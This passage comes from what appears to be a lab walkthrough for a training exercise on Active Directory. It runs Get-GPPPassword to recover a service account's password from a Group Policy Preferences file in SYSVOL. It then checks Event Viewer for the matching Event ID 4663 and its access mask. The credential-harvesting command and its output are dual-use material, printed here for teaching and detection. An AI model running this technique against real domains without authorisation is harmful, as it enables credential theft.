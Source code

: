 ***

#### 3.4 Run Get-GPPPassword

```powershell
# Retrieve the svc-iis password
Get-GPPPassword
```

* &#x20;output

<figure><img src="https://97192284-files.gitbook.io/~/files/v0/b/gitbook-x-prod.appspot.com/o/spaces%2FgJzvqFCnTpw25MQy2FcH%2Fuploads%2FDeYRZxLjFLxrexosRTWb%2FScreenshot%202025-09-12%20at%203.20.45%E2%80%AFPM.png?alt=media&#x26;token=761e7d4a-5757-413a-a5ec-092336d7593f" alt=""><figcaption></figcaption></figure>

```
UserName  : svc-iis
Password  : abcd@123
File      : \\EAGLE.LOCAL\SYSVOL\eagle.local\Policies\{73C66DBB-81DA-44D8-BDEF-20BA2C27056D}\Machine\Preferences\Groups\Groups.xml
Cpassword : qRI/NPQtItGsMjwMkhF7ZDvK6n9KlOhBZ/XShO2IZ80
```

**Result:**

* Username: `svc-iis`
* Password: `abcd@123`

**Answer : `abcd@123`**



**Q2** After running the previous attack, connect to DC1 (172.16.18.3) as 'htb-student:HTB\_@cademy\_stdnt!' and look at the logs in Event Viewer. What is the Access Mask of the generated events?

#### Open Event Viewer

* Navigate: **Windows Logs → Security**
* Filter by **Event ID 4663** (Object Access)

#### 4.3 Check Access Mask

* Event 4663 generated by running `Get-GPPPassword` on Groups.xml:

```
Access Mask: 0x80
```

* Meaning: **Read Attributes** (reading file attributes)

***

### 5. Analysis

<figure><img src="https://97192284-files.gitbook.io/~/files/v0/b/gitbook-x-prod.appspot.com/o/spaces%2FgJzvqFCnTpw25MQy2FcH%2Fuploads%2FIKb3n0JFfecOhz42KZBa%2FScreenshot%202025-09-12%20at%203.38.59%E2%80%AFPM.png?alt=media&#x26;token=bcecab54-49a6-4497-a153-b83af2b4a30a" alt=""><figcaption></figcaption></figure>

| Item               | Detail                                                                           |
| ------------------ | -------------------------------------------------------------------------------- |
| Target File        | `C:\Windows\SYSVOL\domain\Policies\{GUID}\Machine\Preferences\Groups\Groups.xml` |
| Accessed By        | `bob`                                                                            |
| Event ID           | 4663                                                                             |
| Access Mask        | 0x80 (Read Attributes)                                                           |
| Extracted Username | svc-iis                                                                          |
| Extracted Password | abcd@123                                                                         |
